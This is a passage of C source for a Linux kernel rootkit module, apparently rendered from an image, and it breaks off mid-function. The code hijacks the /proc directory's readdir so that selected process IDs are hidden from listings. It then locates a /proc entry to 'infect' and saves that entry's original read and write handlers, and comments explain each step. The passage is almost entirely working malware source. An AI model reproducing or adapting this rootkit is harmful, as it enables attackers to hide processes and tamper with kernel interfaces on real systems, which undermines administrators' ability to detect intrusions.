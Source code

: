 ```cpp
/* Our filldir function */
static int new_filldir(void *__buf, const char *name, int namelen,
loff_t offset, u64 ino, unsigned d_type)
{
	int i;
	/* We check if "name" is pid of one of hidden processes */
	for (i = 0; i < pid_index; i++)
		if (!strcmp(name, pid[i]))
			return 0; /* If yes, we don't display it */
	/* Otherwise we invoke original filldir */
	return old_filldir(__buf, name, namelen, offset, ino, d_type);
}

/* Our readdir function */
static int new_proc_readdir(struct file *filp, void *dirent, filldir_t filldir)
{
	/* To invoke original filldir in new_filldir we have to remeber pointer to original filldir */	
	old_filldir = filldir;
	/* We invoke original readdir, but as "filldir" parameter we give pointer to our filldir */
	return old_proc_readdir(filp, dirent, new_filldir) ;
}

/* Here we replace readdir function of /proc */
static inline void change_proc_root_readdir(void)
{
	root_fops = (struct file_operations *)root->proc_fops;
	old_proc_readdir = root_fops->readdir;
	root_fops->readdir = new_proc_readdir;
}

static inline void proc_init(void)
{

	ptr = create_proc_entry("temporary", 0444, NULL);
	ptr = ptr->parent;
	/* ptr->parent was pointer to /proc directory */
	/* If it wasn't, something is seriously wrong */
	if (strcmp(ptr->name, "/proc") != 0) {
		failed = 1;
		return;
	}
	root = ptr;
	remove_proc_entry("temporary", NULL);
	change_proc_root_readdir(); /* We change /proc's readdir function */
	ptr = ptr->subdir;
	/* Now we are searching entry we want to infect */
	while (ptr) {
		if (strcmp(ptr->name, passwaiter) == 0)
			goto found; /* Ok, we found it */
		ptr = ptr->next; /* Otherwise we go to next entry */ 
	}
	/* If we didn't find it, something is wrong :( */
	failed = 1;
	return;
found:
	/* Let's begin infecting */
	/* We save pointers to original reading and writing functions, to restore them during unloading the rootkit */
	old_write = ptr->write_proc;
	old_read = ptr->read_proc;

```